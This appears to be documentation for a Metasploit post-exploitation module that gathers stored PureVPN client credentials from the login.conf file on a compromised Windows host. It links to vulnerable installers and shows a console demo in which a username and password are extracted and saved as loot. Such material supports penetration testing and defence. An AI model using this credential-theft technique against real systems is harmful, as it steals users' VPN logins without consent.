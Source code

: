 # Introduction

This module allows you to collect login information for PureVPN client, specifically the `login.conf` file.

## Vulnerable Application

Versions before 6.0 should be vulnerable. For testing purposes, you may find the vulnerable version here:

Download links are provided for reference only and are not maintained by the project. Utilize at your own risk!
* [https://jumpshare.com/v/LZcpUqJcThY1v7WlH95m](https://jumpshare.com/v/LZcpUqJcThY1v7WlH95m)
* [https://s3.amazonaws.com/purevpn-dialer-assets/windows/app/purevpn_setup.exe](https://s3.amazonaws.com/purevpn-dialer-assets/windows/app/purevpn_setup.exe)

## Options

**RPATH**

You may manually set the `RPATH` datastore option to allow the post module to find the installed
directory of PureVPN.

# Demo

```
msf5 post(windows/gather/credentials/purevpn_cred_collector) > rerun
[*] Reloading module...

[*] Searching PureVPN Client installation at C:\ProgramData
[*] Found PureVPN Client installation at C:\ProgramData
[*] Checking for login configuration at: C:\ProgramData\purevpn\config\
[*] Configuration file found: C:\ProgramData\purevpn\config\login.conf
[*] Found PureVPN login configuration on DESKTOP-AFMF2QU via session ID: 1
[+] Collected the following credentials:
[+]     Username: asfafsdas
[+]     Password: 23423423
[*] PureVPN credentials saved in: /Users/wchen/.msf4/loot/20181127162258_default_172.16.249.215_PureVPN.creds_515624.txt
[*] Post module execution completed
```
